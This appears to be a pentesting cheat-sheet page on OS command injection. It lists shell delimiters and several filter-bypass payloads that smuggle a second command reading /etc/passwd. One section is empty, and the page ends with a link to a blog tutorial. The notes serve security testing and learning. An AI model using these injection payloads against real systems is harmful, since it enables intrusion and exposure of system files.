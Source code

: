# Remote Code Execution (RCE)

### Shell Delimiters

<pre class="language-bash"><code class="lang-bash"><strong>;
</strong>>
>>
&#x26;
&#x26;&#x26;
|
||
</code></pre>

### Bypasses

```bash
# Some simple examples of bypasses when searching for OS Command Injection as referenced from 0xFFFF's blog.

;cat${IFS}/etc/passwd
;{cat,/etc/passwd}
;cat%09/etc/passwd
;cat%0a/etc/passwd
;cat+/etc/passwd
;$lol='\x20';cat${lol}/etc/passwd
;IFS=,;`cat<<</etc,/passwd`

```

### Filter Bypass Methods



### References

{% embed url="https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/" %}
